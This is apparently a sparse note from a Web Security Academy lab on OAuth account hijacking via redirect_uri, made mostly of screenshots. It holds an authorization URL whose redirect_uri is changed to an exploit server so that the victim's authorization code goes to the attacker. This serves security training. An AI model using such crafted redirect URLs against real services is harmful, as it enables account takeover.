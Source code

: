 ---------------------------------------------

https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/3.png)

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/4.png)


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/5.png)